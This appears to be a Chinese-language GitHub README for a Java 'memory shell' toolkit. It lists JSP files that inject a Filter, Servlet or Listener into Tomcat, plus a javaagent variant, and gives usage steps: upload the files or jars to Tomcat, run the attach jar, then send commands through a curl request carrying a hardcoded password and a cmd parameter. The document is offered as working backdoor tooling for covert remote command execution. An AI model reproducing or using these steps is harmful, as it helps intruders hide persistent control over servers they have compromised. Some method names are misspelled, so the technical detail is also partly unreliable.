 # JAVA_memshells
java 内存马系列 实现（Servlets 、组件、Agent）

# java 内存马实现落地
## 1、基于动态添加Servlets组件(Listener、Servlet、Filter)
addfilter.jsp

addHttpServlet.jsp

addServlet.jsp

addListerner.jsp

### 使用
上传至tomcat，访问即可触发
## 2、基于框架组件，Spring的Controller

## 3、基于javaagent技术运行时加载，instrumentation的redefinessClass和retransformClass来实现对类的重加载或重构
inst.redefinessClass 
inst.retransformClass
### 使用方法
1、Tomcat的根目录中上传：Agent-1.0-SNAPSHOT-jar-with-dependencies.jar、Attach-1.0-SNAPSHOT-jar-with-dependencies.jar

2、java -jar Attach-1.0-SNAPSHOT-jar-with-dependencies.jar

3、curl http://tomcat:port/anypath?passwod=ga0weI&cmd={xx}
